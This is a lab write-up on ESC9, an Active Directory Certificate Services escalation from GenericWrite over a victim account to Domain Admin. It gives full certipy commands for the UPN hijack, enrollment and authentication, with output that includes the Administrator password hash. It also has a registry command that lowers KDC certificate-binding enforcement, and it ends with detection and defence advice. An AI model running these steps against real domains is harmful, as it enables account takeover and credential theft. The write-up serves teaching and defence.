

# ESC9 — No Security Extension + Weak Binding

**Impact:** `GenericWrite` over a victim account → **Domain Admin**
**Lab status:** ✅ verified end-to-end

---

## Concept

ESC9 is the escalation designed for the **post-KB5014754** world. A template with
the **`CT_FLAG_NO_SECURITY_EXTENSION` (0x80000)** enrollment flag tells the CA
**not** to embed the SID security extension in issued certificates. Without the
SID, the KDC falls back to the weaker **SAN → UPN** mapping.

Now, if the attacker holds **`GenericWrite`** over a *victim* account, they can:

1. Set the victim's `userPrincipalName` to `administrator@…`,
2. Enroll the no-SID template **as the victim** (inheriting the admin UPN),
3. Restore the victim's UPN (cleanup),
4. Authenticate — the cert maps by UPN to Administrator because there's no SID to
   contradict it.



---

## Template & prerequisites in the lab

| Attribute | Value |
|-----------|-------|
| Name | `ESC9` |
| `msPKI-Enrollment-Flag` | `CT_FLAG_NO_SECURITY_EXTENSION (0x80000)` |
| EKU | Client Authentication |
| Name flag | `SUBJECT_ALT_REQUIRE_UPN` (subject/UPN from AD) |
| KDC binding | `StrongCertificateBindingEnforcement = 1` (compatibility) |
| Attacker right | `lowpriv` has **GenericWrite** over `victim` |

> `StrongCertificateBindingEnforcement` must be **1** (compatibility), not 2, for
> ESC9. In the lab, ESC10 later sets it to 0 — toggle it back to 1 before running
> ESC9:
> `reg add HKLM\SYSTEM\CurrentControlSet\Services\Kdc /v StrongCertificateBindingEnforcement /t REG_DWORD /d 1 /f`

---

## Exploitation

### 1 — hijack the victim's UPN (using GenericWrite)

```bash
certipy account update -u 'lowpriv@adescrtl.lab' -p 'Lab12345!' -dc-ip 10.0.0.5 \
  -user victim -upn 'administrator@adescrtl.lab'
```

```
[*] Successfully updated 'victim'
```

### 2 — enroll ESC9 as the victim (now carrying the admin UPN)

```bash
certipy req -u 'victim@adescrtl.lab' -p 'Lab12345!' -dc-ip 10.0.0.5 \
  -target DC01.adescrtl.lab -ca ADESC-Root-CA -template ESC9 -out esc9admin
```

The certificate is issued with UPN `administrator` and **no SID binding**.

### 3 — restore the victim's UPN (cleanup)

```bash
certipy account update -u 'lowpriv@adescrtl.lab' -p 'Lab12345!' -dc-ip 10.0.0.5 \
  -user victim -upn 'victim@adescrtl.lab'
```

### 4 — authenticate

```bash
certipy auth -pfx esc9admin.pfx -dc-ip 10.0.0.5
```

```
[*] Got TGT
[*] Got hash for 'administrator@adescrtl.lab':
    aad3b435b51404eeaad3b435b51404ee:9d6a0157f349c85398948b6a90a2b6e9
```

---

## Why the NO_SECURITY_EXTENSION flag is the whole game

If the cert carried the victim's SID, step 4 would fail — the SID says "victim"
while the UPN says "administrator." Stripping the SID is what lets the UPN mapping
win. This is ESC9's distinction from ESC1: the attacker never types a name into a
CSR; they manipulate **which account the CA reads** and rely on the absent SID.

---

## Detection & defence

- Set `StrongCertificateBindingEnforcement = 2` (Full Enforcement) — the default
  on patched systems. It rejects no-SID auth for privileged mappings.
- Audit templates for `CT_FLAG_NO_SECURITY_EXTENSION`; remove it unless there's a
  hard compatibility need.
- Audit and minimise **write access over user accounts** (`GenericWrite`,
  `WriteProperty` on `userPrincipalName`). This is the enabling primitive.
- Alert on **UPN changes** to privileged values, especially transient ones.
